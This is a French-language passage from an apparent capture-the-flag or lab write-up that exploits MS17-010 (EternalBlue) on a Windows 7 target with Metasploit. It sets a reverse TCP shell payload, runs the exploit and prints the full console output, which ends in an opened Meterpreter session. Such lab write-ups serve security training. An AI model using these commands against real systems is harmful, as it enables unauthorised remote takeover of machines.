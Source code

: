 :mushroom: Hint : Le host local doit être adapté à l'interface créée par le VPN.

Préparer le payload pour enclencher un reverse shell en tcp adapté à l'architecture de la machine cible :
```
set payload windows/x64/shell/reverse_tcp
```

Lancer l'attaque :rocket:
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

```
[*] Started reverse TCP handler on 10.8.237.162:4444
[*] 10.10.214.31:445 - Executing automatic check (disable AutoCheck to override)
[*] 10.10.214.31:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.214.31:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.214.31:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.214.31:445 - The target is vulnerable.
[*] 10.10.214.31:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.214.31:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.214.31:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.214.31:445 - Connecting to target for exploitation.
[+] 10.10.214.31:445 - Connection established for exploitation.
[+] 10.10.214.31:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.214.31:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.214.31:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.214.31:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.214.31:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.214.31:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.214.31:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.214.31:445 - Sending all but last fragment of exploit packet
[*] 10.10.214.31:445 - Starting non-paged pool grooming
[+] 10.10.214.31:445 - Sending SMBv2 buffers
[+] 10.10.214.31:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.214.31:445 - Sending final SMBv2 buffers.
[*] 10.10.214.31:445 - Sending last fragment of exploit packet!
[*] 10.10.214.31:445 - Receiving response from exploit packet
[+] 10.10.214.31:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.214.31:445 - Sending egg to corrupted connection.
[*] 10.10.214.31:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.10.214.31
[*] Meterpreter session 1 opened (10.8.237.162:4444 -> 10.10.214.31:49199) at 2021-09-13 10:32:39 +0000
[+] 10.10.214.31:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.214.31:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.214.31:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

